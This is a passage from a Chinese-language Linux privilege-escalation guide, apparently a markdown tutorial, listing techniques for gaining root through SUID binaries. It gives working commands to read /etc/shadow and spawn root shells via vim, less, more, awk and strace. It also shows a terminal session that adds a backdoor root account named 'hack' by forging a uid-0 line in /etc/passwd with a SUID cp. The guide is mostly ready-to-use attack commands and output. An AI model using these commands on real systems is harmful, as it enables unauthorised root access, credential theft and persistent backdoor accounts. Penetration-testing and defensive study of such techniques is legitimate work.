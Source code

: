 ## 4.8 vim/less/more提权

如果vim 是通过SUID运行，就会继承root用户的权限。可读取只有root能读取的文件。

```
vim /etc/shadow
```

vim 运行shell

```
vim
:set shell=/bin/sh
:shell
```

less和more相同

PS：**使用more和less一定读取一个比较大的文件，如果文件太小无法进入翻页功能，无法使用`!`命令进入shell。**

## 4.9 awk提权

```
awk 'BEGIN {system("/bin/bash")}'
```

## 4.10 **strace**

```
strace -o/dev/null /bin/bash
```

## 4.11 cp/mv提权

```
1.[zabbix@localhost ~]$ cat /etc/passwd >passwd
2.[zabbix@localhost ~]$ openssl passwd -1 -salt hack hack123
3.$1$hack$WTn0dk2QjNeKfl.DHOUue0
4.[zabbix@localhost ~]$ echo 'hack:$1$hack$WTn0dk2QjNeKfl.DHOUue0:0:0::/root/:/bin/bash' >> passwd
5.[zabbix@localhost ~]$ cp passwd /etc/passwd
6.[zabbix@localhost ~]$ su - hack
7.Password:
8.[root@361way ~]# id
9.uid=0(hack) gid=0(root) groups=0(root)
10.[root@361way ~]# cat /etc/passwd|tail -1
11.hack:$1$hack$WTn0dk2QjNeKfl.DHOUue0:0:0::/root/:/bin/bash
```

先利用openssl生成密码

```
openssl passwd -1 -salt 114154 cmd114514
```

 用具有suid权限的cp，将/etc/passwd文件复制到当前目录，添加用户，并且添加密码
